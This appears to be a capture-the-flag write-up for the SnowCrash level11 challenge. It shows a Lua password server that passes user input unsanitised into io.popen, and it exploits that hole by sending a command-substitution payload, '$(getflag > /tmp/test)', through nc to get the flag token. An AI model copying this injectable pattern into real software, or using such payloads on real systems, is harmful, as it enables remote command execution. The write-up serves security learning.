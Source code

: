 # Solution

So once we logged in, we find in the home a file level11.lua here is the source code:

```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

so this look like server that is listening to port 5151 on localhost and wait for password once he received the password,
then it will be passed to the hash function and do a comparaision with the hash that he received and another hash.

But if we take a close look at the hash function we will find something interesting.

```lua
function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end
```

This line !

```lua
  prog = io.popen("echo "..pass.." | sha1sum", "r")
```

this line is pretty explainatory it use the password that you provide as an argument to execute some shell command,
and it will pipe to sha1sum, since we have control of pass we can input what we want and we can leverage simple metacharacter feature of bash,
such as \`\` or $(...) notation let's test if it's work !

```sh
level11@SnowCrash:~$ nc localhost 5151
Password: $(getflag > /tmp/test)
Erf nope..
level11@SnowCrash:~$ cat /tmp/test
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

It's working ! now we can get the flag and go to next level
